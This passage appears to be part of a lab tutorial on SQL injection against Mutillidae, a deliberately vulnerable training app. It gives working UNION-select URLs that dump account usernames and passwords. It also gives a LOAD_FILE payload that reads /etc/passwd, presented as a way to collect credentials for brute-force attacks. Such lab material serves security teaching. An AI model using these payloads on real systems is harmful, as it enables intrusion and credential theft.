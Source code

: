 
http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT

![serverside](./img8/26.png)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT
